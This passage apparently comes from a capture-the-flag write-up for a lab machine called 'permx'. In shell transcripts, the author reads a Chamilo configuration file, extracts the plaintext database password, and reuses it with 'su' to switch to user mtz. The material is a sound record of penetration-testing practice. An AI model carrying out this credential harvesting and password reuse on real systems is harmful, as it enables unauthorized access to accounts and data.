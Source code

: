 
<pre><code>ww-data@permx:/var/www/chamilo$ cd app
cd app
www-data@permx:/var/www/chamilo/app$ cd config
cd config
www-data@permx:/var/www/chamilo/app/config$ ls
ls
add_course.conf.dist.php   course_info.conf.php  profile.conf.dist.php
add_course.conf.php	  events.conf.dist.php  profile.conf.php
assetic.yml		  events.conf.php	routing.yml
auth.conf.dist.php	  fos			routing_admin.yml
auth.conf.php		  ivory_ckeditor.yml	routing_dev.yml
config.yml		  mail.conf.dist.php	routing_front.yml
config_dev.yml		  mail.conf.php	security.yml
config_prod.yml		  migrations.yml	services.yml
configuration.php	  mopa			sonata
course_info.conf.dist.php  parameters.yml.dist
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php
</code></pre>


<pre><code>
?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
</code></pre>

testing those credentials with the user mtz I was able to log in successfully
<pre><code>www-data@permx:/var/www/chamilo/app/config$ su mtz
su mtz
Password: 03F6lY3uXAP2bkW8

mtz@permx:/var/www/chamilo/app/config$ whoami
whoami
mtz
mtz@permx:/var/www/chamilo/app/config$ 
</code></pre>

